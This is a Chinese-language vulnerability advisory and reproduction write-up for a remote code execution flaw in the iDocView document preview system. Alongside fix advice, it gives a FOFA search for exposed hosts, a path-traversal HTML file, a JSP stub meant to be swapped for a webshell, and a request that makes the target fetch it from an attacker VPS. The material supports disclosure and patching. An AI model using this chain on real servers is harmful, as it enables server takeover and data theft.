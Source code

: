 
# I Doc View 在线文档预览系统 RCE 漏洞 (QVD-2023-45061)

### 0x01 产品简介

  iDocView 是一个在线文档解析应用，旨在提供便捷的[文件查看](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E6%9F%A5%E7%9C%8B&spm=1001.2101.3001.7020)和编辑服务。

### 0x02 漏洞概述 

**漏洞成因**

本次漏洞出现在在线文档解析应用中的远程页面缓存功能。具体问题在于该应用未能对[用户输入](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E8%BE%93%E5%85%A5&spm=1001.2101.3001.7020)的 URL 进行充分的安全验证，从而导致存在安全隐患。攻击者可通过构造特殊的 URL，引诱应用下载恶意文件。

**利用特征**

攻击者利用该漏洞的关键在于使用具有远程页面缓存功能的接口，在参数中填写预先准备的包含恶意文件的 URL。此类请求能够绕过正常的安全检查，使得服务器下载并处理恶意内容。漏洞的触发会返回特定的响应状态和内容类型条件，攻击者可通过自动化脚本进行检测和利用。

**漏洞影响**

该漏洞的利用可能导致服务器被远程控制、敏感数据泄露等等。漏洞的存在不仅威胁到该[应用服务器](https://so.csdn.net/so/search?q=%E5%BA%94%E7%94%A8%E6%9C%8D%E5%8A%A1%E5%99%A8&spm=1001.2101.3001.7020)的安全性，还可能成为更广泛网络安全事件的触发点。建议受影响的用户尽快采取必要的安全措施，以防范潜在的安全风险。

### 0x03 影响范围

iDocView < 13.10.1\_20231115

### 0x04 复现环境

FOFA：title=="在线文档预览 - I Doc View"

![1f8800a1887f4998bdd1ccb3ecd6587e.png](assets/1700812556-96830dba9faba6f93f61b367e3e3169f.png)

### 0x05 漏洞复现 

VPS 上构造一个携带恶意 link\[href\]的 html 文件，里面的 link 指向你的恶意文件

构造 index.html

```cobol
<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>
</head>
<body>
  <link href="/..\..\..\docview\test.jsp">
</body>
</html>
```

构造恶意文件

```perl
vi '..\..\..\docview\test.jsp'


<%out.print("test");%>      #可以是马子
```

python 开启一个 http 服务器，发送请求

```cobol
http://your-ip/html/2word?url=http://VPSip/index.html
```

![](assets/1700812556-650d044ae1818404906dae774325cf8b.png)

当两个请求都响应 200 时会下载一个 word 文件，表示利用成功 

![](assets/1700812556-6d47fef7ac24d3782567b50f1f0ebe0a.png) 验证

![](assets/1700812556-d5d6af0f6bb26045a2543a087e75818f.png)

GetShell

![](assets/1700812556-1dcd59165f97b71604303629dd94824a.png) ![](assets/1700812556-9e890f7534e25d10ad2ce39526707764.png) 

### 0x06 修复建议

目前官方已发布安全修复版本，受影响用户可以自行更新或者联系相关技术支持获取最新版本或补丁修复漏洞。

https://api.idocv.com

**缓解措施**

隔离该系统对外访问，仅允许受信任网络或者用户访问。

拦截受影响 Api 接口的请求访问。
